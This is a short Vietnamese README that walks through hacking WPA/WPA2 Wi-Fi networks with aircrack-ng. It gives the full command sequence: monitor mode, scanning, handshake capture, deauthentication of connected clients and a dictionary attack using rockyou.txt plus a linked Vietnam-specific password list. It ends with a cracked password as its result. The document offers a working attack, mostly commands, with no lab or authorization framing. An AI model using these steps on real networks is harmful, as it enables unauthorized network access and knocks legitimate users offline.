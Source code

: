 ## 🔧 Công cụ

## 🛠️ Các bước thực hiện hack Wi-Fi (WPA/WPA2)

1. Kiểm tra các thiết bị kết nối mạng không dây.

```
iwconfig
```
2. Bật chế độ monotor
   
```
sudo airmon-ng start wlan0
```
→ **airmon-ng** : bật tắt chế độ monitor và dừng tiến trình gây xung đột.

3. Dừng các dịch vụ gây xung đột

```
sudo airmon-ng check kill
```
4. Quét và giám sát các mạng wifi xung quanh

```
sudo airodump-ng wlan0mon
```
*công dụng airodump-ng*
  - thu thập được : SSID ( tên mạng ), BSSID ( địa chỉ MAC ), kênh ( channel ), mã hóa (WEP/WPA/WPA2), số lượng client kết nối.
  - Bắt handshake (quá trình xác thực giữa thiết bị và router) dùng để dò mật khẩu.
→ Quét và thu thập thông tin mạng Wi-Fi.

    **Ctrl + C** để thoát.

5. Bắt handshake WPA/WPA2 từ một Wi-Fi và lưu vào file `wpa2hack.cap`.

```
sudo airodump-ng --bssid <bssid> --channel <ch> --write wpa2hack wlan0mon
```

6. Gửi gói `deauth` để ngắt kết nối thiết bị khỏi Wi-Fi.
   
```
sudo aireplay-ng --deauth 4 -a <bssid> -c <station> wlan0mon
```
-> **Mục đích** : ép thiết bị kết nối lại để bết handshake.

7. Dò mật khẩu Wi-Fi bằng file từ điển `rockyou.txt`.

```
sudo aircrack-ng <file.cap> -w /usr/share/wordlists/rockyou.txt

```
-> mọi người có thể download file sau để dò chính xác hơn các mật khẩu ở Việt Nam
>link: [vietpass.txt](https://github.com/user-attachments/files/21192498/vietpass.txt)



---

### ✅ Kết quả:

```
Sanh Dieu [ 00001111 ]
```
